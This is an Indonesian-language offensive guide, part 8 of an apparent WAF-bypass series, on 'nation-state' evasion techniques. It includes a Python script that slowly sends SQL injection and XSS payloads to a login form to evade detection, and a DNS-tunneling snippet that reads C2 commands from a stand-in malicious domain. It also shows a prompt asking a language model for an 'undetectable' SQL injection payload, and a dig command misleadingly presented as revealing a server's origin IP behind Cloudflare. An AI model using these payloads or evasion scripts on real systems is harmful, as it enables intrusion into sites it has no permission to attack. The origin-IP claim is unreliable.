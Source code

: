 # Kamus Besar Bypass WAF - Part 8

## 🌍 Cyberwarfare & Nation-State Level WAF Evasion

Serangan siber tingkat negara (nation-state attacks) sering menggunakan teknik canggih untuk **bypass WAF dan mengeksploitasi infrastruktur target**.  
Bagian ini membahas **strategi serangan tingkat lanjut yang digunakan dalam operasi cyberwarfare**.

---

## 🔹 1. Teknik Bypass WAF dalam Operasi Spionase Siber

Dalam operasi spionase siber, bypass WAF digunakan untuk **eksfiltrasi data rahasia tanpa deteksi**.  
**Metode utama yang digunakan:**  

1. **Low & Slow Attacks** → Mengirimkan payload dalam jumlah kecil untuk menghindari trigger WAF.  
2. **Multi-Stage Exploits** → Memecah payload menjadi beberapa tahap agar tidak dikenali sebagai serangan tunggal.  
3. **Fileless Attacks** → Mengeksekusi payload langsung dalam memori tanpa menyentuh disk (menghindari logging).  

**Contoh "Low & Slow Attack" di Python:**  
```python
import time
import requests

payloads = ["' OR '1'='1", "UNION SELECT NULL, NULL--", "<script>alert(1)</script>"]
target = "https://target.com/login"

for payload in payloads:
    response = requests.post(target, data={"username": "admin", "password": payload})
    print(f"Sent payload: {payload}")
    time.sleep(10)  # Delay antar-request untuk menghindari deteksi WAF
```

---

## ☁️ 2. Eksploitasi Infrastruktur Cloud & CDN untuk Bypass WAF

Banyak organisasi menggunakan **Cloudflare, AWS, atau Akamai** untuk melindungi infrastruktur mereka.  
Namun, ada metode yang dapat digunakan untuk melewati proteksi ini:

1. **Origin IP Discovery** → Menemukan IP asli server target untuk melewati WAF cloud.  
2. **CDN Cache Poisoning** → Memanipulasi cache server untuk menginjeksikan payload berbahaya.  
3. **HTTP Desync Attacks** → Mengeksploitasi perbedaan parsing antara WAF dan backend server.  

**Contoh Menemukan IP Asli dari Server Cloudflare:**  
```bash
dig +short target.com @1.1.1.1
```

---

## 🕵️‍♂️ 3. Stealth Command & Control (C2) untuk Operasi Jangka Panjang

Dalam operasi **Advanced Persistent Threats (APT)**, penyerang menggunakan **Command & Control (C2) server** untuk berkomunikasi dengan malware tanpa terdeteksi.  
**Teknik utama yang digunakan:**  

- **Domain Fronting** → Menyembunyikan traffic C2 menggunakan domain sah seperti Google atau Cloudflare.  
- **DNS Tunneling** → Menggunakan DNS query sebagai saluran komunikasi.  
- **Covert Channel Exploits** → Menggunakan media sosial atau layanan publik sebagai relay C2.  

**Contoh DNS Tunneling untuk Bypass WAF:**  
```python
import dns.resolver

domain = "malicious-command.com"
response = dns.resolver.resolve(domain, "TXT")

for txt_record in response:
    print(f"Received C2 Command: {txt_record}")
```

---

## 🤖 4. AI-Driven Cyber Attacks & Automated Warfare

Serangan berbasis **AI & Machine Learning** memungkinkan eksploitasi otomatis yang lebih cepat dan lebih sulit dideteksi.  
Teknik yang digunakan:

1. **AI-Powered Zero-Day Exploits** → Menggunakan AI untuk menemukan celah keamanan sebelum diperbaiki.  
2. **Neural Network-Based WAF Bypass** → Model AI belajar dari respon WAF untuk mengadaptasi payload.  
3. **Deepfake Social Engineering** → Menggunakan AI untuk menciptakan serangan berbasis manipulasi sosial.  

**Contoh AI untuk Generate Payload Adaptive:**  
```python
from transformers import pipeline

generator = pipeline("text-generation", model="EleutherAI/gpt-neo-2.7B")
payload = generator("Generate an undetectable SQL Injection payload:", max_length=50)

print(f"Generated AI-Powered Payload: {payload}")
```

---

## 🛡️ Cara Mencegah Cyberwarfare & Nation-State Attacks

1. **Gunakan Threat Intelligence Platform** → Integrasi data ancaman global untuk mengenali pola serangan APT.  
2. **Implementasi AI-Powered Intrusion Detection System (IDS)** → Analisis trafik secara real-time dengan AI.  
3. **Enforce Zero Trust Security Model** → Tidak ada entitas yang dipercaya tanpa verifikasi ketat.  
4. **Penerapan Post-Quantum Cryptography** → Mengamankan komunikasi dari eksploitasi berbasis quantum computing.  

---

## 📌 Kesimpulan  

Di **Part 8**, kita membahas **Cyberwarfare, Stealth C2, dan AI-Driven Cyber Attacks**.  
Selanjutnya, kita akan bahas **"Future of Cybersecurity: AI vs AI Warfare & Autonomous Defense Systems"** di **Part 9** 🚀  

